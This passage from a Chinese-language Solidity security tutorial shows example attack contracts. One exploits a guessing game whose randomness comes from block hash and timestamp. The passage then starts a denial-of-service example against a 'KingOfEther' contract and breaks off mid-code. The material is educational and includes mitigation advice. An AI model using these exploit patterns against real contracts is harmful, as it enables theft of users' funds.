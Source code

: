 ```solidity
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

这个例子很容易理解，`GuessTheRandomNumber` 是一个猜数游戏，它内部把当前最新的 Block 的 哈希和时间戳当作随机数源，用它们计算一个值，如果调用者猜对了，就奖励 1 ETH。但正如我们刚才所说，新区块的产生是需要时间的，使用 PoW 的以太坊产生一个区块的时间大约是 12 秒左右，在这段时间里，攻击者完全可以使用相同的方法计算 `answer` 值，然后调用 `GuessTheRandomNumber.guess` 函数，「猜中」的概念是 100% 。

**如何避免**：  
不要使用 Block 的任何信息作为合约的随机数源。


## DoS 攻击之发送 ether 失败 

拒绝攻击有很多种，这里我们介绍一种通过让发送 ether 失败的方式，中断被攻击者的处理逻辑。

**[攻击示例](https://solidity-by-example.org/hacks/denial-of-service/)**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
```